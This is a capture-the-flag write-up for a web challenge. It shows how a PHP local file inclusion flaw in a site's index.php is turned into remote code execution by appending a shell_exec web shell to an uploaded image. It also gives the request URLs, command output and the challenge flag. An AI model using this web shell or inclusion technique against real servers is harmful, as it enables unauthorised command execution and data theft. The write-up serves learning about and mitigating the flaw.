

---
html:
  embed_local_images: true
  embed_svg: true
  offline: true
export_on_save:
  html: true
print_background: true
---
@import "../style.less"

# Local Fun Inclusion - localo

**Category:** Web       
**Difficulty:** Easy        
**Author:** 0x4d5a      

## Description

> Recently i learned how to code in PHP. There are cool tutorials for file uploads around! [Imgur Memes](https://i.imgur.com/OV86lKu.png) have no chance vs. my cool image sharing website!
>
> Check it out at: http://lfi.hax1.allesctf.net:8081/

## Summery
The challenge is a typical LFI challenge, we are provided with a link to a website where we can upload images.
After uploading an image the website provides us a link to it.

By following the link we can see our picture:  


## Solution
The vulnerability can easily be spotted by taking a closer look ath the address bar:


`site=view.php` just looks already quite promising and with `image=uploads/57421..._1.png` we get a relative path to out file on the webserver.
Here is the important part of `index.php` to explain how LFI works.
```PHP
<?php
	$site = $_GET["site"];
	if (!isset($site))
	{
		$site = "upload.php";
	}
	if (file_exists($site))
	{
		include($site);
	}
	else
	{
		echo '<div class="container"><div class="alert alert-danger" role="alert">Site "' . htmlspecialchars($site) . '" cant be included!</div>';
	}
?>
```
In `PHP` a file may include other files, this is useful if you have large code bases or libraries.
`index.php` stores the value of the `GET` parameter `site` in the variable `$site`. If it is not set, it will default to `upload.php`. If the file exists on the filesystem it will include it. Otherwise it will throw en error to the user. We can abuse this by including our uploaded image.
We can execute arbitrary php code by appending it to the end of a valid image.
I used this for basic command execution.

`<?php echo shell_exec($_GET["cmd"]); ?>`

By using this URL:  
`http://lfi.hax1.allesctf.net:8081/index.php?site=uploads/5742351c7ea7c738bd18084f9b08bbd3_1.jpg&cmd=ls`
We get the directory listing at the end of the page.
```
css flag.php index.php js upload.php uploads view.php
```
To get the flag we have to get the content of `flag.php`, but we don't want the content to be interpreted. This is can be achieved by using base64:     
`http://lfi.hax1.allesctf.net:8081/index.php?site=uploads/5742351c7ea7c738bd18084f9b08bbd3_1.jpg&cmd=base64%20flag.php`     
results in:
```
PD9waHAKCiRGTEFHID0gIkNTQ0d7RzN0dGluZ19SQ0VfMG5fdzNiX2lzX2FsdzR5c19jb29sfSI7
```
decoded:
```PHP
<?php

$FLAG = "CSCG{G3tting_RCE_0n_w3b_is_alw4ys_cool}";
```


## Mitigation
Never include user controlled input and avoid php in general, it does stuff you would normally not expect.

## Flag
CSCG{G3tting_RCE_0n_w3b_is_alw4ys_cool}